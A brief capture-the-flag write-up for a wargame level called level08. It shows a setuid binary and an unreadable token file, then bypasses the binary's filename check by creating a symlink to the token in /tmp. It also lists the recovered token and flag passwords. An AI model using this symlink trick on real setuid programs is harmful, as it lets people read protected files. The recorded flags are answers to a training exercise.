 /home/user/level08
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token



ln -s -T /home/user/level08/token ./symlink3  <-- done from /tmp
/home/user/level08/./level08 /tmp/symlink3


forgot ltrace output for level08  :  it only  print the content of arg1 passed to the program


flag08 user_pass quif5eloekouj29ke0vouxean

flag08 : 25749xKZ8L7DkSCwJkT9dyv6f